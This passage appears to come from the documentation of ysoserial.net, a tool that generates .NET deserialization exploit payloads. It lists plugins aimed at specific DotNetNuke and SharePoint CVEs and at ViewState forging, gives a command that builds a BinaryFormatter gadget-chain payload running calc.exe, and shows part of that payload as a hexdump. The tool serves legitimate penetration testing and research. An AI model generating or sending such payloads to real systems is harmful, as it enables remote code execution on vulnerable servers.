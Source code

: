 ```
                        NetDataContractSerializer
                        LosFormatter
        WindowsIdentity (WindowsIdentity Gadget by Levi Broderick)
                Formatters:
                        BinaryFormatter
                        Json.Net
                        DataContractSerializer
                        SoapFormatter

Available plugins:
        ActivatorUrl (Sends a generated payload to an activated, presumably remote, object)
        Altserialization (Generates payload for HttpStaticObjectsCollection or SessionStateItemCollection)
        ApplicationTrust (Generates XML payload for the ApplicationTrust class)
        Clipboard (Generates payload for DataObject and copy it into the clipboard - ready to be pasted in affected apps)
        DotNetNuke (Generates payload for DotNetNuke CVE-2017-9822)
        Resx (Generates RESX files)
        SessionSecurityTokenHandler (Generates XML payload for the SessionSecurityTokenHandler class)
        SharePoint (Generates poayloads for the following SharePoint CVEs: CVE-2019-0604, CVE-2018-8421)
        TransactionManagerReenlist (Generates payload for the TransactionManager.Reenlist method)
        ViewState (Generates a ViewState using known MachineKey parameters)
```


A valid payload for the example deserializer can be generated via the following command:

```
$ ysoserial-net -f BinaryFormatter -g TypeConfuseDelegate -o raw -c calc.exe > desert.ser
```

The following object would be created:

```
$ hexdump.exe -C desert.ser
00000000  00 01 00 00 00 ff ff ff  ff 01 00 00 00 00 00 00  |................|
00000010  00 0c 02 00 00 00 49 53  79 73 74 65 6d 2c 20 56  |......ISystem, V|
00000020  65 72 73 69 6f 6e 3d 34  2e 30 2e 30 2e 30 2c 20  |ersion=4.0.0.0, |
00000030  43 75 6c 74 75 72 65 3d  6e 65 75 74 72 61 6c 2c  |Culture=neutral,|
00000040  20 50 75 62 6c 69 63 4b  65 79 54 6f 6b 65 6e 3d  | PublicKeyToken=|
00000050  62 37 37 61 35 63 35 36  31 39 33 34 65 30 38 39  |b77a5c561934e089|
00000060  05 01 00 00 00 84 01 53  79 73 74 65 6d 2e 43 6f  |.......System.Co|
00000070  6c 6c 65 63 74 69 6f 6e  73 2e 47 65 6e 65 72 69  |llections.Generi|
00000080  63 2e 53 6f 72 74 65 64  53 65 74 60 31 5b 5b 53  |c.SortedSet`1[[S|
00000090  79 73 74 65 6d 2e 53 74  72 69 6e 67 2c 20 6d 73  |ystem.String, ms|
000000a0  63 6f 72 6c 69 62 2c 20  56 65 72 73 69 6f 6e 3d  |corlib, Version=|
000000b0  34 2e 30 2e 30 2e 30 2c  20 43 75 6c 74 75 72 65  |4.0.0.0, Culture|
000000c0  3d 6e 65 75 74 72 61 6c  2c 20 50 75 62 6c 69 63  |=neutral, Public|
000000d0  4b 65 79 54 6f 6b 65 6e  3d 62 37 37 61 35 63 35  |KeyToken=b77a5c5|
000000e0  36 31 39 33 34 65 30 38  39 5d 5d 04 00 00 00 05  |61934e089]].....|
000000f0  43 6f 75 6e 74 08 43 6f  6d 70 61 72 65 72 07 56  |Count.Comparer.V|
00000100  65 72 73 69 6f 6e 05 49  74 65 6d 73 00 03 00 06  |ersion.Items....|
00000110  08 8d 01 53 79 73 74 65  6d 2e 43 6f 6c 6c 65 63  |...System.Collec|
00000120  74 69 6f 6e 73 2e 47 65  6e 65 72 69 63 2e 43 6f  |tions.Generic.Co|
00000130  6d 70 61 72 69 73 6f 6e  43 6f 6d 70 61 72 65 72  |mparisonComparer|
00000140  60 31 5b 5b 53 79 73 74  65 6d 2e 53 74 72 69 6e  |`1[[System.Strin|
00000150  67 2c 20 6d 73 63 6f 72  6c 69 62 2c 20 56 65 72  |g, mscorlib, Ver|
00000160  73 69 6f 6e 3d 34 2e 30  2e 30 2e 30 2c 20 43 75  |sion=4.0.0.0, Cu|
00000170  6c 74 75 72 65 3d 6e 65  75 74 72 61 6c 2c 20 50  |lture=neutral, P|
00000180  75 62 6c 69 63 4b 65 79  54 6f 6b 65 6e 3d 62 37  |ublicKeyToken=b7|
00000190  37 61 35 63 35 36 31 39  33 34 65 30 38 39 5d 5d  |7a5c561934e089]]|
000001a0  08 02 00 00 00 02 00 00  00 09 03 00 00 00 02 00  |................|
000001b0  00 00 09 04 00 00 00 04  03 00 00 00 8d 01 53 79  |..............Sy|
000001c0  73 74 65 6d 2e 43 6f 6c  6c 65 63 74 69 6f 6e 73  |stem.Collections|
```